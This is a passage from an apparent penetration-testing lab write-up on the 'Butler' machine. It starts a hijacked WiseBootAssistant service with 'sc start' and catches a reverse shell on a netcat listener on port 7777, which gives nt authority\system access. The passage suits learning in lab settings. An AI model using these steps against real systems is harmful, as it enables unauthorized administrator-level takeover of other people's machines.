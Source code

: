 ```
c:\Program Files (x86)\Wise>sc query WiseBootAssistant
sc query WiseBootAssistant

SERVICE_NAME: WiseBootAssistant 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

c:\Program Files (x86)\Wise>sc start WiseBootAssistant
```

This will stall, and if we check the status of our listener on port 7777, the
reverse shell has actually made a connection with administrator privileges:

```
┌──(kali㉿kali)-[~/Capstone/Butler]
└─$ nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.80] 49709
Microsoft Windows [Version 10.0.19043.2364]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd c:\users\butler\desktop
cd c:\users\butler\desktop

c:\Users\butler\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of c:\Users\butler\Desktop

08/14/2021  04:54 AM    <DIR>          .
08/14/2021  04:54 AM    <DIR>          ..
               0 File(s)              0 bytes
               2 Dir(s)   9,181,450,240 bytes free

c:\Users\butler\Desktop>mkdir I_was_here
mkdir I_was_here
```


